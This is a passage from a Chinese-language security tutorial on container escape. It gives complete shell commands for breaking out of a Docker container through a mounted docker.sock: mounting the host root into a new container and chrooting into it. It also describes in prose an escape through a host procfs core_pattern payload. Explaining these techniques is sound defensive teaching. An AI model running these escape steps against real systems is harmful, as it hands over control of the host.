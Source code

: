 ```bash
# --security-opt apparmor=unconfined：由于默认情况下会开启AppArmor配置，从而保证docker以严格模式运行使用权限限制较高。这里改为unconfined表示去除默认的AppArmor配置，即不开启严格模式运行容器。
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:18.04 /bin/bash
```

## 0x03 不安全挂载导致的容器逃逸

为了方便宿主机与虚拟机进行数据交换，几乎所有主流虚拟机解决方案都会提高挂载宿主机目录到虚拟机的功能。容器同样如此，但是将宿主机上的敏感文件或目录挂载到容器内部往往会带来安全问题。

### 3.1  挂载 Docker Socket 的情况：攻击者可“基本”从容器内逃逸

Docker Socket 是 Docker 守护进程监听的 UNIX 域套接字，用来与守护进程通信（查询或下发命令）。如果在攻击者可控的容器内挂载了此套接字文件（/var/run/docker.sock），容器逃逸就会变得很容易。

#### 漏洞利用

1. 创建一个容器并挂载/var/run/docker.sock
2. 在容器内安装 docker 命令行客户端
3. 使用此客户端通过 docker socket 与 docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机根目录挂载到新创建的容器内部
4. 在新容器内执行 chroot，将根目录切换到挂载的宿主机根目录

```bash
docker run -itd --name docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04
# 进入容器
ls -al /var/run/docker.sock
# 安装docker-ce-cli
apt-get update
apt-get install ca-certificates curl gnupg lsb-release
curl -fsSL http://mirrors.aliyun.com/docker-ce/linux/ubuntu/gpg | apt-key add -
apt-get install software-properties-common
apt-get update
add-apt-repository "deb [arch=amd64] http://mirrors.aliyun.com/docker-ce/linux/ubuntu $(lsb_release -cs) stable"
apt-get install docker-ce docker-ce-cli containerd.io
# 利用此客户端通过docker socket与docker守护进程通信，发送命令创建并运行一个新的容器
docker ps # 可发现此时的返回结果是宿主机上的容器进程
docker run -it -v /:/host ubuntu:18.04 /bin/bash # 创建容器并将宿主机根目录挂载到新创建的容器中
chroot /host # 使用chroot将根目录切换到挂载的宿主机根目录
```

![32f36e21811140dca0842f5d69ae2c87.png](https://s2.loli.net/2023/10/07/IX6nFHmpKvSlAu9.png)

### 3.2  挂载宿主机 procfs 的情况

**procfs**是进程文件系统的缩写（**proc filesystem**），是一个伪文件系统（启动时动态生成的文件系统），它动态反映系统内进程以及其他组件的状态，其中有许多非常敏感、重要的文件。因此将宿主机的 procfs 挂载到不受控的容器中非常危险，尤其是在该容器内默认启用 root 权限，且没有为这个容器开启 user namespace 时。docker 默认情况下不会为容器开启 user namespace。

procfs 中的 <code>/proc/sys/kernel/core_pattern</code>负责配置进程崩溃时内存转储数据的导出方式，如果 <code>/proc/sys/kernel/core_pattern</code>文件中的首个字符是管道符<code>|</code> ，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。因此这种逃逸方式可以通过进程崩溃来触发。

<u>攻击者进入一个挂载了宿主机 procfs 的容器中，具有 root 权限，然后向宿主机 procfs 写入 payload，接着制造崩溃，触发内存转储。</u>

